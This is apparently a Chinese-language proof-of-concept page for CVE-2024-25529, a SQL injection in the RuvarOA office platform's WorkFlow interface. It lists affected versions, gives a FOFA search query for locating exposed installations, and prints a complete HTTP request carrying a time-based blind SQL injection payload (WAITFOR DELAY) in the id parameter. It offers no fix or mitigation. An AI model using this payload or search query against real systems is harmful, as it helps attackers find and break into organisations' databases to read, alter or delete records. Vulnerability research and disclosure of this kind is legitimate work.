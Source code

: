 # CVE-2024-25529 RuvarOA协同办公平台 SQL注入

## 1.漏洞描述

RuvarOA协同办公平台 是由广州市璐华计算机科技有限公司开发，璐华RuvarOA协同办公平台不但继承了传统OA产品的所有优秀特性，并在此基础上增加了更齐全的功能模块，极大地扩大了应用的覆盖面。

RuvarOA协同办公平台 WorkFlow接口处存在SQL注入，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

## 2.影响版本

RuvarOA v6.01 RuvarOA v12.01

## 3.搜索语法

```java
fofa：body="txt_admin_key"
```

## 4.漏洞复现

POC

```java
GET /WorkFlow/wf_office_file_history_show.aspx?id=1%27WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: micromessenger Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Iron Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="115", "Chromium";v="115", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/9a069dbf-fdf5-4653-a04c-96df30ea0ed6)
